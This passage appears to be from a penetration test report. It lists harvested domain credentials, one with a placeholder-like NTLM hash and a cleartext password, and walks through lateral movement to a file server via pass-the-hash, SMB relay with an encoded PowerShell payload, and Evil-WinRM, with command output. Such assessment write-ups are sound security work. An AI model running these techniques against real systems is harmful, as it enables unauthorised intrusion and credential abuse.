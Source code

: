 **Additional Credentials Discovered:**
```
Username: mrodriguez
Domain: VANGUARDFS
NTLM: a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6
Password: ITAdmin@2024!

Username: WKSTN-HR-05$
Domain: VANGUARDFS  
NTLM: 7f8e9d0c1b2a3f4e5d6c7b8a9f0e1d2c
```

#### 2.3.2 Lateral Movement Techniques

**Target:** VFS-FS-01 (File Server)

**Method 1: Pass-the-Hash with mrodriguez credentials**

```bash
# Test access
crackmapexec smb 10.50.3.50 -u mrodriguez -H 'a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6'

# Result: mrodriguez has local admin on VFS-FS-01

# Execute commands
crackmapexec smb 10.50.3.50 -u mrodriguez -H 'a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6' -x "whoami"

# Obtain shell
impacket-psexec -hashes :a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6 mrodriguez@10.50.3.50
```

**Method 2: SMB Relay Attack**

```bash
# Setup relay (SMB signing not required on both targets)
impacket-ntlmrelayx -tf targets.txt -smb2support -c "powershell -enc <base64_payload>"

# Trigger authentication from WKSTN-HR-05
# Result: Successfully relayed and obtained code execution on VFS-FS-01
```

**WinRM/PSRemoting:**

```bash
# Evil-WinRM with mrodriguez credentials
evil-winrm -i 10.50.3.50 -u mrodriguez -p 'ITAdmin@2024!'

# Verify access
*Evil-WinRM* PS C:\> hostname
VFS-FS-01

*Evil-WinRM* PS C:\> whoami /groups | findstr "Administrators"
BUILTIN\Administrators
```

#### 2.3.3 File Server Assessment (VFS-FS-01)
